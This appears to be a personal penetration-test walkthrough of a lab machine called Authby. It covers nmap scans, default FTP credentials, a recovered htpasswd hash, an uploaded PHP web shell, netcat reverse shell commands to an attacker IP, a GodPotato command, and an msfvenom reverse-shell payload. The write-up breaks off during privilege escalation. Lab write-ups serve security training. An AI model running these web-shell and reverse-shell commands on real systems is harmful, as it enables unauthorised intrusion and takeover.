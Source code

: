 # Authby

## Pentest Report for Authby

### Basic Information

* **Box name**: Authby
* **IP address**: 192.168.169.46
* **Operating system**: Windows
* **Date**: 3/24/2025

### Pentest Phases

#### 1. Reconnaissance

* Initial Nmap scan: `nmap -sC -sV -oA initial 192.168.169.46`
* Full scan: `nmap -p- --min-rate 10000 -oA full 192.168.169.46`
* Service version verification

<figure><img src="../../../.gitbook/assets/image (302).png" alt=""><figcaption></figcaption></figure>

#### 2. Enumeration

* Enumeration of users, groups, and other relevant information
* Search for known vulnerabilities for identified services

Ok so in our scan we got some interesting stuff, we're going to try and abuse one of the FTP services:

Ftp anonymous connection is enabled -> no interesting informations

I am able to connect as admin:

<figure><img src="../../../.gitbook/assets/image (303).png" alt=""><figcaption></figcaption></figure>

I download every files in the admin share and discover a hash:

<figure><img src="../../../.gitbook/assets/image (304).png" alt=""><figcaption><p>offsec:$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0</p></figcaption></figure>

#### 3. Exploitation

* Exploitation attempts of discovered vulnerabilities
* Initial access to the target

it's hashcat mode 1600:

<figure><img src="../../../.gitbook/assets/image (305).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (306).png" alt=""><figcaption></figcaption></figure>

another thing to note is when i connect with admin:admin i am able to upload php shell:

```
ftp> put shell.php
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||2064|)
150 File status okay; about to open data connection.
100% |*************************************************|  5496       23.29 MiB/s    00:00 ETA
226 Closing data connection.
5496 bytes sent in 00:00 (68.09 KiB/s)
ftp> dir
229 Entering Extended Passive Mode (|||2065|)
150 Opening connection for /bin/ls.
total 9
-r--r--r--   1 root     root         5496 Mar 24 22:34 shell.php
-r--r--r--   1 root     root           76 Nov 08  2011 index.php
-r--r--r--   1 root     root           45 Nov 08  2011 .htpasswd
-r--r--r--   1 root     root          161 Nov 08  2011 .htaccess
226 Closing data connection.
ftp> 
```

but the php shell does not work so i upload nc exe and a php webshell and manage to get a webshell ->

```
http://192.168.169.46:242/webshell.php?cmd=whoami
```

So for my reverse shell i set up a listener and enter:

```
http://192.168.169.46:242/webshell.php?cmd=nc.exe+192.168.45.228+80+-e+cmd
```

and get my reverse shell

#### 4. Post-Exploitation

* Access persistence
* Privilege escalation
* Sensitive data extraction

After a quick whoami /priv i see that i have impersonate privileges so i start exploitation ->

God potato does not work:

```
.\GodPotato-NET4.exe -cmd "nc.exe -e cmd 192.168.45.228 9876"
```

I already had this issue so i'll use printspoofer:

and i got the error:

```
This version of C:\wamp\www\PrintSpoofer.exe is not compatible with the version of Windows you're running.
```

so i try juicy potato and start by uploading the executable and a shell.exe that i crafted:

```
msfvenom -p windows/x64/shell_reverse_tcp LPORT=4444 LHOST=192.168.45.228 -f exe -o shell.exe
```





#### 5. Cleanup

* Removal of artifacts from the target
* Documentation of vulnerabilities and exploitation methods

### Detected Services

_To add details about specific services, use the Exploitation Templates page._
